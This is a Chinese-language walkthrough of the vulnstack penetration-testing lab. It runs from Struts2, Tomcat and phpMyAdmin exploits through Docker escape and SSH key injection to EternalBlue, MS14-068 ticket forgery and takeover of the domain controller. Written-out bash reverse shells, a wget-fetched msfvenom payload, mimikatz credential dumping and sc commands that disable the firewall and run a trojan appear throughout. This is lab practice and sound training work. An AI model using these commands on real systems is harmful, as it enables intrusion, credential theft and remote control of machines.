# 拓扑图



地址：[vulnstack](http://vulnstack.qiyuanxuetang.net/vuln/detail/6/)

```php
1.s2漏洞利用
2.phpmyadmin 4.8.1文件包含
3.tomcat getshell
4.docker逃逸 ssh 免密登录
5.ms14-068 域提权漏洞
6.bash 一句话反弹shell
7.sc 服务计划任务
8.token 降权收集信息
```

# 环境搭建

账号信息：

ubuntu: ubuntu
win7 douser: Dotest123
DC: administrator: Test2008 修改为Qwer1234

下载完三个压缩包解压后，虚拟机导入.ovf文件:



切换root身份，开启docker：

docker-compose up -d


查看运行情况：

ps


IP信息：

DC
IP：192.168.183.130 内网
OS：Windows 2008

Win7
Ip: 192.168.183.128 内网     183.129

Ubuntu
Ip：192.168.47.136 外网     3.235
Ip：192.168.183.129 内网   183.128

------

# 外网渗透

## 信息收集

nmap -T4 -sV 192.168.47.136 



查询得到对应服务：

2001：struts2
2002：Tomcat (version:8.5.19)
2003：phpmyadmin

------

## 2001：st2漏洞

正好ctfshow刚做过java，直接利用工具



------

## 2002:Tomcat

搜索漏洞

searchsploit tomcat 8.5.19


复制到桌面

searchsploit -m /usr/share/exploitdb/exploits/jsp/webapps/42966.py



漏洞检测：

python 42966.py -u http://192.168.47.136:2002/


存在漏洞且上传了一个测试文件：


获取webshell：

python 42966.py -u http://192.168.47.136:2002/ -p pwn 

其实就是生成pwn.jsp后门可以直接去执行：


或者

Tomcat PUT方法任意写文件漏洞（CVE-2017-12615）

[Tomcat漏洞汇总](https://zhuanlan.zhihu.com/p/137686820)

访问抓包：


修改为PUT方法，上传冰蝎shell1.jsp
回显201为成功：


冰蝎连接：



------

## PhpMyAdmin（4.8.1文件包含漏洞）

[渗透测试-PhpMyAdmin后台文件包含漏洞](https://blog.csdn.net/weixin_39190897/article/details/99078864)

版本4.8.1：


上来先试一下写入一句话，开启全局日志写路径getshell，返回权限错误

找到phpmyadmin 4.8.1 (CVE-2018-12613)

测试漏洞 访问：

/index.php?target=db_sql.php?/../../../../../../../../etc/passwd


原理：

每次登录phpmyadmin系统的时候，系统就会产生一个 sess_sessionID 文件，然后在里面执行的操作，会被记录到这个文件内（UNIX系统中存放路径为 /tmp/sess_[当前会话session值]）。

利用：
执行 select ' <?php phpinfo() ?> 命令，查看当前页面 cookie值：phpMyAdmin:cookie



访问

[http://192.168.47.136:2003/?target=db_sql.php%253f/../../../../../../../../tmp/sess_87d042e299d54975eef6411cd90dd80c](http://192.168.47.136:2003/?target=db_sql.php%3f/../../../../../../../../tmp/sess_87d042e299d54975eef6411cd90dd80c)


成功执行，返回写入一句话即可利用，但是我这里没有成功

------

# 反弹Docker shell

## 判断Docker环境

实战中首先需要判断服务器是否为docker环境。

常用的判断方法有两种。

```
是否存在.dockerenv文件: docker环境下存在：ls -alh /.dockerenv 文件 查询系统进程的cgroup信息: docker环境下 cat /proc/1/cgroup
```



------

## bash 一句话

[bash 反弹shell 一句话原理](https://blog.csdn.net/weixin_43221560/article/details/112436499)

```
bash -i >& /dev/tcp/192.168.47.128/9999 0>&1 
bash -i > /dev/tcp/192.168.47.128/9999 2>&1 0>&1 
bash -i < /dev/tcp/192.168.47.128/9999 2>&0 1>&0
```

bash一句话生成shell.sh

冰蝎上传 shell.sh 

Kali开启监听，同时运行shell.sh

```
chmod +x shell.sh   //添加可执行 bash shell.sh     //运行
```



------

## 冰蝎反弹shell

看图



------

## msfvenom 后门

生成msf马：

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.47.128 LPORT=8888 -f elf >shell.elf

这里可以冰蝎直接上传，运行，我试试另外一种

使用python在当前目录开一个简单的http服务 默认端口8000：

python -m SimpleHTTPServer 


访问网站看看我自己的kali桌面：


利用之前那个pwn.jsp

wget http://192.168.47.128:8000/shell.elf //主动下载后门马



chmod 777 shell.elf //赋予权限
./shell.elf //运行

kali开启监听 记得切换payload：


至此有三个shell

1.  bash一句话
2.  冰蝎java shell
3.  Msf木马的linux shell



------

# Docker 逃逸

[初始docker逃逸](https://www.freebuf.com/articles/container/242763.html)

## CVE-2019-5736逃逸(失败)

[docker逃逸漏洞复现（CVE-2019-5736）](https://blog.csdn.net/lhh134/article/details/104107776)

Docker、containerd或者其他基于 runc 的容器在运行时存在安全漏洞，攻击者可以通过特定的容器镜像或者exec操作获取到宿主机 runc 执行时的文件句柄并修改掉runc的二进制文件，从而获取到宿主机的 root 执行权限。

影响版本：
Docker version < 18.09.2
RunC version <= 1.0-rc6

恶意容器需要满足以下两个条件之一：

1· 有一个攻击者控制的恶意镜像创建
2· 攻击者具有某已存在容器的写权限，且可通过docker exec进入

------

Poc地址：https://github.com/Frichetten/CVE-2019-5736-PoC

下载后修改payload为bash一句话 反弹shell：


编译生成payload：

```
source /etc/profile   //配置go环境 CGO_ENABLED=0 GOOS=linux GOARCH=amd64 go build main.go  //编译生成
```


上传main：

可以使用冰蝎，也可以使用msf会话上传，且需要赋予权限

```
upload /home/cys121/桌面/CVE-2019-5736-PoC/main /home chmod 777 /home/main
```


执行payload，同时 nc 监听7777

```
./main   //运行payload nc -lvp 7777  //监听
```


payload需要重启docker才可以触发：模拟重启容器：

docker exec -it 09dd4e5bfa91 /bin/bash


Payload执行成功：


但是并没有反弹shell


如果成功：



------

## 特权模式—privileged+ssh 免密码 逃逸

特权模式于版本0.6时被引入Docker，允许容器内的root拥有外部物理机root权限，而此前容器内root用户仅拥有外部物理机普通用户权限。
使用特权模式启动容器，可以获取大量设备文件访问权限。因为当管理员执行docker run —privileged时，Docker容器将被允许访问主机上的所有设备，并可以执行mount命令进行挂载。
当控制使用特权模式启动的容器时，docker管理员可通过mount命令将外部宿主机磁盘设备挂载进容器内部，获取对整个宿主机的文件读写权限，此外还可以通过写入计划任务等方式在宿主机执行命令。

### 挂载目录

查看磁盘文件:

fdisk -l


可以看到 sda1 在/dev/sda1

新建一个目录,将/dev/vda1挂载至新建的目录

mkdir /cyshack //新建目录
mount /dev/sda1 /cyshack //挂载到新目录


查看是否挂载成功：


到此挂载成功，我们可以通过这个目录来访问宿主机的目录

查看当前用户：



------

### 生成秘钥

这时在攻击机本地生成 ssh秘钥文件

```
ssh-keygen -f cyshack   chmod 600 cyshack  //对cyshack赋权，只有拥有者有读写权限。
```

就会生成一个秘钥文件：




------

### 写入秘钥

接下来将生成的秘钥写入目标机

ls /cyshack/home/ubuntu -l -a //利用的就是这个.ssh目录



将 ssh秘钥 写入到.ssh目录里面并将文件命名为authorized_keys (目标机.ssh目录权限为700)

```
cp -avx /cyshack/home/ubuntu/.ssh/id_rsa.pub /cyshack/home/ubuntu/.ssh/authorized_keys  // -avx 将权限也一起复制 echo > authorized_keys  //将内容清空 echo ‘kali生成的.pub内容’ > authorized_keys  //将ssh秘钥写入
```




------

### 免密登录

此时，可以利用自己的私钥进行免密码登录目标宿主机

ssh -i cyshack [ubuntu@192.168.47.136](mailto:ubuntu@192.168.47.136)



------

# 反弹宿主机权限到MSF

还是可以用wget进行下载木马，在msf设置监听获取meterpreter

```
python -m SimpleHTTPServer //启动web服务 wget http://192.168.47.128:8000/shell.elf Chmod 777 shell.elf   //权限 ./shell.elf     //执行
```




------

# 攻入内网

## ubuntu添加路由代理

ip a ：发现另一个网段



添加路由：



------

## 内网扫描

用ms17_010扫描


看到一台win7 192.168.183.128, 一台win2008 192.168.183.130

------

## 获取win7

用永恒之蓝打
关键是这里：
setg Proxies socks5:192.168.47.136:1080

不这样设置，永恒之蓝打不进去


------

# 内网信息收集

## token 降权

为了方便信息收集，将当前权限降为普通域用户，因为不是域用户没有权限执行域命令

[通过token窃取实现降权或者提权](https://blog.csdn.net/qq_41874930/article/details/111926058)

```
getuid //查看当前token use incognito //加载incognito list_tokens -u //列出accesstoken impersonate_token "DEMO\douser"  //模拟"DEMO\douser”用户 rev2self  //返回之前的accesstoken权限
```


------

## 信息收集

降权

网卡信息：


查看几个域：


域内机器：
域控列表：


域内用户：


域管列表：


域控ip：

192.168.183.130


密码收集：

提权

```
load kiwi creds_all 得到域用户   douser：Dotest123
```

------

# 进攻域控

## ms17-010

失败


------

## ms14-068

[深入解读MS14-068漏洞：微软精心策划的后门？](https://www.freebuf.com/vuls/56081.html)

[MS14-068域提权漏洞复现](https://www.cnblogs.com/yuzly/p/10859520.html)

------

一、**system权限上传mimikatz.exe**


------

二、**获取域用户douser的sid**

whoami /user

demo\douser S-1-5-21-979886063-1111900045-1414766810-1107


------

三、**伪造生成票据**

上传ms14-068.exe (github)，生成TGT票据

```
MS14-068.exe -u douser@DEMO.com -s S-1-5-21-979886063-1111900045-1414766810-1107 -d 192.168.183.130 -p Dotest123 // ms14-068.exe -u 域成员名@域名.com -s 域成员sid -d 域控制器ip地址 -p 域成员密码
```


如图成功生成票据文件TGT_douser@DEMO.com.ccache

------

四、**导入票据**

利用mimikatz注入票据，将票据伪造到当前内存中，伪造凭证，如果成功则拥有域管理权限，可任意访问域中所有机器

```
kerberos::purge //清空当前机器中所有凭证 kerberos::list  //查看当前机器凭证 kerberos::ptc TGT_douser@DEMO.com.ccache //将票据注入到内存中
```


查看是否注入成功：

klist


------

五、**访问域控**

dir \WIN-ENS2VR5TR3N\c$ //查看域控机器c盘

如果是ip则不能访问


------

# 获取域控权限

## sc服务关闭防火墙

```
sc \\WIN-ENS2VR5TR3N create unablefirewall binpath= "netsh advfirewall set allprofiles state off" sc \\WIN-ENS2VR5TR3N start unablefirewall
```


------

## 生成msf木马反弹shell

Bind 类型所以设置端口就行了


------

## 传输木马

system权限上传到win7，再共享到域控


回退权限 c盘共享复制到域控c盘：

cp c:\users\douser\ma.exe \WIN-ENS2VR5TR3N\c$


------

## 执行木马

```
sc \\WIN-ENS2VR5TR3N create ma binpath= "c:\ma.exe"  //创建服务 sc \\WIN-ENS2VR5TR3N start ma  //执行服务
```


------

## 上线利用


直接getsystem提升权限获取密码结果什么都没有


降权上传mimikatz


获取密码

```
privilege::debug sekurlsa::logonpasswords
```


密码为Qwer1234

------

## 远程登录

```
(meterpreter)run post/windows/manage/enable_rdp proxychains rdesktop 192.168.183.130
```


------

# 参考

https://www.freebuf.com/articles/container/242763.html

https://www.freebuf.com/company-information/205006.html

https://www.cnblogs.com/yuzly/p/10859520.html

https://www.cnblogs.com/yuzly/p/10859520.html

https://blog.csdn.net/qq_39717726/article/details/89304337

https://blog.csdn.net/qq_41874930/article/details/111926058